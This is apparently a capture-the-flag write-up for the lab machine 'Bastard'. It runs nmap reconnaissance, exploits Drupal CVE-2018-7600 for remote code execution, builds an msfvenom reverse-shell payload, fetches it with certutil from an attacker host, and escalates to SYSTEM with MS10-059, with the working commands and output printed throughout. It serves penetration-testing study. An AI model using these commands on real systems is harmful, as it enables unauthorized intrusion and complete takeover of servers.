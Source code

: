 # Bastard

<pre>nmap -p 80,135,49154 -sV -A -Pn 10.10.10.9      

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-title: Welcome to Bastard | Bastard
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5

135/tcp   open  msrpc   Microsoft Windows RPC

49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</pre>

/CHANGELOG.txt
- Drupal 7.54

## CVE-2018-7600
https://github.com/pimps/CVE-2018-7600

<pre>python drupa7-CVE-2018-7600.py http://10.10.10.9/ -c "whoami"

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-cAMZtD6OxF6VBMvqu-jsy8_6YyWnS5hMyYaWUYrH0Xs
[*] Triggering exploit to execute: whoami

nt authority\iusr</pre>

<pre>python drupa7-CVE-2018-7600.py http://10.10.10.9/ -c 'systeminfo | findstr /B /C:"OS Name" /C:"OS Version"'

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-6vXCDlelylkpC1-w1fCTJMyujnx-prntwwDu5d4AnCE
[*] Triggering exploit to execute: systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600</pre>

- Create payload

<pre>msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe > shell.exe</pre>

- Create directory on target machine using drupa7-CVE-2018-7600.py

<pre>python drupa7-CVE-2018-7600.py http://10.10.10.9/ -c 'mkdir C:\temp'</pre>

- Upload payload to target machine

<pre>python drupa7-CVE-2018-7600.py http://10.10.10.9/ -c 'certutil -urlcache -f http://10.10.14.8/shell.exe c:\temp\shell.exe'</pre>

- netcat to receive reverse shell

<pre>nc -nvlp 4444</pre>

- Execute shell.exe using drupa7-CVE-2018-7600.py

<pre>python drupa7-CVE-2018-7600.py http://10.10.10.9/ -c 'c:\temp\shell.exe'</pre>

<pre>netcat -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.9] 49229
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>


C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr</pre>

## Privilege Escalation using Windows Exploit Suggester - MS10-059

- Save output from `systeminfo` command into sysinfo.txt

<pre>./windows-exploit-suggester.py --database 2024-05-14-mssb.xls --systeminfo sysinfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical</pre>

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe

- Transferred MS10-059.exe across to target machine using certutil
- netcat listener on attacker machine
- execute MS10-059.exe and receive reverse shell

<pre>C:\inetpub\drupal-7.54>MS10-059.exe 10.10.14.8 5555


nc -nvlp 5555                             
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.9] 49233
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system</pre>